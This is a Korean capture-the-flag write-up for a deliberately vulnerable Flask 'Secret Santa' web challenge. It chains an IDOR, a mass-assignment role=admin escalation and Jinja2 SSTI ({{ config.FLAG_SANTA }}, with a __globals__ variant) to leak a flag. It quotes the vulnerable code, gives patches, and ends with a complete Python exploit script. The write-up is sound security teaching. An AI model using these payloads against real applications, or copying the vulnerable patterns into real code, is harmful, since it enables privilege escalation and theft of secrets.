









# hard-06 — 시크릿 산타 풀이

## 1. 문제 개요

| 항목 | 내용 |
|---|---|
| 분류 | Web / IDOR(정찰) → Mass Assignment(권한 상승) → SSTI(플래그 유출) |
| 난이도 | Hard |
| 접속 | `http://<출제조IP>:8010` |
| 시작 | 회원가입으로 계정 생성 (초기 role = `applicant`) |
| 플래그 형식 | `GlassHouse{...}` (환경변수 `FLAG_SANTA`) |

최종 목표: 운영진(엘프)만 들어가는 "엘프 사무실"의 카드 미리보기 기능을 악용해, 메모리(`app.config`)에만 올라가 있는 플래그를 유출한다.
플래그는 파일로 떨어지지 않고 `app.py`가 `.env`에서 읽어 `app.config["FLAG_SANTA"]`에만 보관한다. 따라서 파일을 읽는 게 아니라, 앱 안에서 도는 코드로 `config` 값을 뽑아내야 한다.



최종 체인: IDOR로 정찰 → Mass Assignment로 운영진 승격 → SSTI로 플래그 유출.

---

## 2. 의도한 풀이 과정 (요약)

1. 플래그가 엘프 사무실(`/elf`, `/elf/card/preview`)에서만 닿을 수 있고, 이 기능은 `role == "admin"`만 허용함을 확인한다. 회원가입 계정은 `applicant` 고정이라 정면으로는 못 들어간다.
2. 위시리스트 상세(`/wishlist/<id>`)에 소유자 검사가 없음(IDOR)을 발견한다. 운영진 소유의 13번을 열어 다음 공략 지점(프로필의 role)을 알려주는 힌트를 얻는다.
3. 프로필 저장이 화이트리스트(`PROFILE_FIELDS`)를 선언만 하고 쓰지 않아, 폼 전체를 `.update()`로 덮어씀(Mass Assignment)을 확인한다. `role=admin`을 끼워 넣어 스스로 운영진으로 승격한다.
4. 승격 후 엘프 사무실의 카드 미리보기가 사용자 입력을 템플릿 소스로 이어붙여 `render_template_string()`에 넣는(SSTI) 것을 확인한다. `{{ config.FLAG_SANTA }}`로 메모리의 플래그를 렌더시킨다.

각 단계의 "왜/무엇을 확인했는지"는 3~4절에서 코드와 함께 설명한다.

---

## 3. 초기 분석과 단서

### 3-1. 플래그는 엘프 사무실에서만 닿는다 — 운영진(admin) 전용
`routes/santa.py`:

```python
def require_elf():
    if session.get("role") is None:
        return redirect(url_for("auth.login"))
    if session.get("role") != "admin":
        abort(403)
    return None
```

`/elf`, `/elf/card/preview`는 전부 `require_elf()`로 막혀 있다. 그런데 회원가입은 role을 받지 않고 항상 `applicant`로 고정한다 — `routes/auth.py`:

```python
# role 은 폼에서 받지 않습니다. 받으면 누구나 admin 으로 가입할 수 있습니다.
data.USERS[username] = {"id": data.next_user_id(), "password": password,
                        "name": name, "role": "applicant", "email": email}
```

→ 가입 단계에서는 role을 못 바꾼다. 승격 경로를 다른 곳에서 찾아야 한다.

### 3-2. 위시리스트 IDOR로 다음 단서 획득
내 위시리스트만 보이지만, 상세 조회는 소유자를 확인하지 않는다(4절 결함 A). 운영진 소유인 13번(`user_id=99`)을 열면 메모에 결정적 힌트가 있다 — `data.py`의 `WISHLISTS[13]`:

```
"memo": "엘프 사무실은 운영진만 들어갑니다. 프로필의 역할이 운영진이면 바로 열립니다."
```




→ "프로필의 역할(role)을 운영진으로 만들면 된다"는 다음 목표를 IDOR로 알아냈다.

---

## 4. 취약점의 원인과 성립 조건

### 결함 A — 위시리스트 상세의 IDOR (정찰)

`routes/santa.py`:

```python
@bp.get("/wishlist/<int:wishlist_id>")
def wishlist_detail(wishlist_id):
    user = current_user()
    if user is None:
        return redirect(url_for("auth.login"))
    wishlist = data.WISHLISTS.get(wishlist_id)
    if wishlist is None:
        abort(404)
    # ← if wishlist["user_id"] != user["id"]: abort(403) 이 없음 (IDOR)
    return render_template("santa/wishlist_detail.html", wishlist=wishlist)
```

목록(`/wishlist`)은 `w["user_id"] == user["id"]`로 내 것만 거르지만, 상세는 존재 여부(`404`)만 보고 소유자를 검사하지 않는다.

- 성립 조건: 로그인 상태에서 `GET /wishlist/13` (번호만 바꾸면 남의 것 열람).
- 영향: 운영진 위시리스트 memo에 담긴 공략 힌트 유출.



### 결함 B — 프로필 수정의 Mass Assignment (권한 상승) ★승격 지점

```python
PROFILE_FIELDS = ("name", "email")   # ← 선언만 하고 아무 데서도 안 씀

@bp.route("/profile", methods=["GET", "POST"])
def profile():
    ...
    if request.method == "POST":
        updates = {k: v.strip() for k, v in request.form.items()}   # (1) 폼 전체 수용
        if not all(updates.values()):
            flash("이름과 이메일은 비울 수 없습니다.", "error")
            return render_template("santa/profile.html")
        data.USERS[user["username"]].update(updates)                # (2) 통째로 덮어쓰기
        session["role"] = data.USERS[user["username"]]["role"]      # (3) 바뀐 role로 세션 갱신
        ...
```

`request.form.items()`를 `PROFILE_FIELDS`로 거르지 않는다. 폼에 `role=admin`을 한 칸 더 끼워 넣으면 `USERS[나]["role"]`이 `admin`으로 바뀌고, 바로 아래 (3)줄이 그 값을 `session["role"]`에 그대로 넣는다.

- 성립 조건: 로그인 상태에서 `/profile`에 POST하며 `role=admin` 필드 추가 (`name`, `email`도 함께 보내 `all(updates.values())` 통과).
- 영향: 평범한 지원자가 스스로 운영진(admin)으로 승격 → 엘프 사무실 진입 가능.
- 함정: 회원가입(`auth.py`)에서는 role을 막아 놓고 프로필 수정에서 열어 둔 것. "프로필 수정은 내 정보만 바꾸니 안전하겠지"라는 착각을 노린다.



### 결함 C — 카드 미리보기의 SSTI (플래그 유출) ★핵심

안전한 템플릿 `templates/santa/card.html`(`{{ to }}`, `{{ message }}`로 값만 받음)이 이미 있는데, 라우트는 그걸 쓰지 않고 문자열을 직접 이어붙여 `render_template_string()`에 통째로 넘긴다:

```python
@bp.post("/elf/card/preview")
def card_preview():
    response = require_elf()
    if response is not None:
        return response
    to = request.form.get("to", "").strip()
    message = request.form.get("message", "").strip()
    card = (
        '<div class="xmas-card">'
        '<p class="xmas-card-to">To. ' + to + '</p>'          # (1) 입력이 템플릿 "소스"에 섞임
        '<p class="xmas-card-message">' + message + '</p>'    # (1)
        '<p class="xmas-card-from">From. 글래스하우스 엘프 사무실</p>'
        '</div>'
    )
    preview = Markup(render_template_string(card))            # (2) 그 문자열을 템플릿으로 컴파일
    ...
```

`render_template_string()`은 인자 문자열 자체를 Jinja2 템플릿으로 컴파일한다. 사용자 입력(`to`, `message`)이 데이터가 아니라 템플릿 소스의 일부로 들어가므로, `{{ ... }}`를 넣으면 서버에서 평가된다 → SSTI. Jinja2 템플릿 안에서는 `config`(= `app.config`)에 바로 접근할 수 있다.

- 성립 조건: admin 세션으로 `/elf/card/preview`에 `message={{ config.FLAG_SANTA }}` 전송.
- 영향: 메모리에만 있던 플래그가 카드 미리보기에 렌더되어 노출.



> 참고: `config`가 막혀 있어도 `{{ self.__init__.__globals__ }}` 류의 표준 SSTI 기법으로 같은 값에 도달할 수 있다. 여기서는 플래그가 `config`에 바로 올라와 `{{ config.FLAG_SANTA }}` 한 줄이면 된다.

---

## 5. 풀이 결과

### 성공 판별 기준
1. `GET /wishlist/13`이 내 계정이 아님에도 200으로 열리고 운영진 memo가 보인다(IDOR 성립).
2. 승격 전 `/elf`는 403, `POST /profile`(`role=admin`) 이후 `/elf`가 200이 된다(승격 성립).
3. `/elf/card/preview` 응답 본문에 `GlassHouse{...}`가 렌더된다(SSTI 성립).

### 최종 출력 예시 (로컬 검증)
```
0) signup: 302
1) login:  302
2) GET /wishlist/13: 200  | memo 힌트 유출: True
   /elf (승격 전): 403
3) POST /profile role=admin: 302
4) /elf (승격 후): 200
5) /elf/card/preview SSTI: 200 | FLAG: GlassHouse{...}
```





플래그: `GlassHouse{...}`
> 실제 값은 배포본 `.env`의 `FLAG_SANTA`를 따른다.

---

## 6. 패치 방안과 검증

### 패치 A — IDOR: 상세 조회에서 소유자 확인
```python
if wishlist["user_id"] != user["id"] and session.get("role") != "admin":
    abort(403)
```

### 패치 B — Mass Assignment: 선언한 화이트리스트를 실제로 사용
```python
updates = {k: request.form[k].strip() for k in PROFILE_FIELDS if k in request.form}
```
`role`·`id` 같은 민감 필드는 사용자 입력으로 절대 덮어쓰지 않는다.

### 패치 C — SSTI: 사용자 입력을 템플릿 소스로 쓰지 않기
이미 있는 안전한 템플릿을 그대로 쓴다.
```python
preview = render_template("santa/card.html", to=to, message=message)
```
`render_template_string()`에는 신뢰 가능한 고정 문자열만 넘긴다.

### (권장) 부가 강화
- 엘프 사무실 같은 민감 기능은 `session["role"]`뿐 아니라 매 요청 `USERS`의 실제 role을 재확인한다.
- 권한 변경 지점(프로필 저장)에 검증·로깅을 둔다.

### 검증 방법
- (음성) 패치 A 후: 남의 번호(`/wishlist/13`)가 403.
- (음성) 패치 B 후: `role=admin`을 보내도 `USERS[나]["role"]`이 그대로 `applicant`.
- (음성) 패치 C 후: `message={{ 7*7 }}`가 `49`가 아니라 문자 그대로 출력.
- (양성) 정상 프로필 수정(이름·이메일)·정상 카드 미리보기는 여전히 동작.

---

## 7. 익스플로잇 코드

```python
#!/usr/bin/env python3
# hard-06 (시크릿 산타) - IDOR 정찰 -> Mass Assignment 승격 -> SSTI 플래그 유출
# 사용: python3 exploit.py http://<IP>:8010
import re
import sys
import requests

BASE = sys.argv[1].rstrip("/") if len(sys.argv) > 1 else "http://127.0.0.1:8010"
USER, PW = "hohoho01", "pw12345"      # 아이디에 admin/reviewer/staff 등 금지어만 피하면 됨

s = requests.Session()  # 세션 쿠키(gh_8010) 자동 관리

# 0) 회원가입 (role 은 서버가 applicant 로 고정)
s.post(f"{BASE}/signup", data={"username": USER, "password": PW, "password_confirm": PW,
                               "name": "테스터", "email": "t@test.com"})

# 1) 로그인
s.post(f"{BASE}/login", data={"username": USER, "password": PW})
print("[*] logged in as applicant")

# 2) (정찰) 위시리스트 IDOR - 운영진 13번 열람해 힌트 확인
r = s.get(f"{BASE}/wishlist/13")
print(f"[*] IDOR /wishlist/13 -> {r.status_code}  (운영진 memo 힌트: role을 admin으로)")

# 3) Mass Assignment - 프로필 저장에 role=admin 끼워넣기 (name/email도 함께)
r = s.post(f"{BASE}/profile",
           data={"name": "테스터", "email": "t@test.com", "role": "admin"},
           allow_redirects=False)
print(f"[*] mass-assign role=admin -> {r.status_code}  (session.role=admin 승격)")

# 4) SSTI - 엘프 사무실 카드 미리보기로 config 플래그 렌더
r = s.post(f"{BASE}/elf/card/preview",
           data={"to": "홍길동", "message": "{{ config.FLAG_SANTA }}"})
m = re.search(r"GlassHouse\{[^}]*\}", r.text)
print(f"[+] FLAG: {m.group(0)}" if m else "[-] 플래그를 찾지 못함 (승격 실패 가능)")
```

실행 예시
```bash
$ python3 exploit.py http://127.0.0.1:8010
[*] logged in as applicant
[*] IDOR /wishlist/13 -> 200  (운영진 memo 힌트: role을 admin으로)
[*] mass-assign role=admin -> 302  (session.role=admin 승격)
[+] FLAG: GlassHouse{...}
```

---

## 부록 — 전체 체인 한 줄 요약
```
회원가입(role=applicant)
  → 위시리스트 상세 IDOR (A: 소유자 미검사) → /wishlist/13 운영진 memo 힌트
  → 프로필 수정 Mass Assignment (B: PROFILE_FIELDS 미사용, form 전체 .update)
     → role=admin 주입 → session.role=admin = 엘프(운영진) 승격
  → 엘프 사무실 카드 미리보기 SSTI (C: 입력을 render_template_string 소스에 연결)
     → {{ config.FLAG_SANTA }} 로 메모리의 플래그 유출
```
